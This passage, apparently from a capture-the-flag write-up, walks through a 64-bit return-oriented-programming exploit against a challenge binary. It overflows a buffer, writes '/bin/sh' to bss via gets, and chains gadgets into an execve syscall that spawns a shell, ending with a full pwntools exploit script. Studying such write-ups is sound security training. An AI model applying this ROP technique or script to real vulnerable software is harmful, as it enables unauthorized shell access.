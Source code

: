 Adding it to exploit:-

```python
payload = "A"*264
```
##### Using `gets` to store /bin/sh adddress

This one does `gets(writeable_addr)` as in 64 bit binaries `rdi` has first arguments.

```python
payload += p64(pop_rdi) 
payload += p64(writable_readable_addr)
payload += p64(0x4004EE) # We know the `gets` address from RE part
```

##### Doing a `execve` syscall 

Since we have found offsets and chained the rop chain to store `/bin/sh` in bss address, time to do a `execve` syscall:-

```python
payload += p64(pop_rax) # This one holds the number of which syscall has to done
payload += p64(0x3b) # This ensures `rax` contains `0x3b` which means it is doing an `execve`
payload += p64(pop_rdi) # Popping `rdi` address
payload += p64(writable_readable_addr) # writeable address which has `/bin/sh` is loaded to `rdi`
payload += p64(pop_rsi) # Popping `rsi` and `r15`
payload += p64(0) # Loading `0` to `rsi`
payload += p64(0) # Loading `0` to `r15` 
payload += p64(pop_rdx) # Popping rdx
payload += p64(0) # We will load to `0` to `rdx`
payload += p64(syscall) # Adding `syscall; ret;` at last to request syscall
```
We are doing `execve("/bin/sh", 0, 0)` to spawn a shell. 

##### Final Exploit

Here is the final exploit:-

```python
from pwn import *

pop_rdi = 0x000000000040141c # pop rdu; ret;
pop_rdx = 0x00000000004023f5 # pop rdx; ret;
pop_rsi = 0x000000000040141a # pop rsi; pop r15; ret;
pop_rax = 0x0000000000400121 # pop rax; ret;
syscall = 0x00000000004024dd # syscall; ret;

elf = ELF("./chall")
writable_readable_addr = elf.bss() + 0x200

payload = b"A"*264
payload += p64(pop_rdi) 
payload += p64(writable_readable_addr)
payload += p64(0x4004EE)
payload += p64(pop_rdi)
payload += p64(writable_readable_addr)
payload += p64(0x40062F)
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(pop_rdi)
payload += p64(writable_readable_addr)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(syscall)

```